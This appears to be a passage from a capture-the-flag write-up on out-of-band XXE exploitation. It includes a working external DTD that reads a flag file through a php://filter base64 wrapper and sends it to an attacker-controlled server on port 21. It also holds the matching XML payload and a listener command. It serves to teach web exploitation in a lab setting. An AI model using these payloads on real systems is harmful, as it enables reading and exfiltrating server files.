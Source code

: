 Some common ports that should be fuzzed include ports 21 (FTP), 22 (SSH), 23 (TELNET), 25 (SMTP), etc.

Let's modify our payload a bit and try some of the common ports.

Starting out with port 21, our external DTD looks like this:
```xml
<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]:21/?flag=%flag;'>">
```

and payload like this:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % dtd SYSTEM "http://[IP REDACTED]:21/malicious.dtd">
	%dtd;
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

This time when starting up our webserver, instead of the standard HTTP port 80, we need to bind it to listen on port 21.

`php -S 0.0.0.0:21`

<img src="./attachments/php-server-21.png" width="500">

Time to send our payload and hope for the best...

Now look at that!

<img src="./attachments/pwned.png">

We can see that the server retrieved our malicious DTD file and shortly after that made a GET request back to our server with some base64 data.

Let's decode that base64 data and see if it actually is the flag.

<img src="./attachments/flag.png">

It is the flag!

<details><summary>Flag:</summary></details>
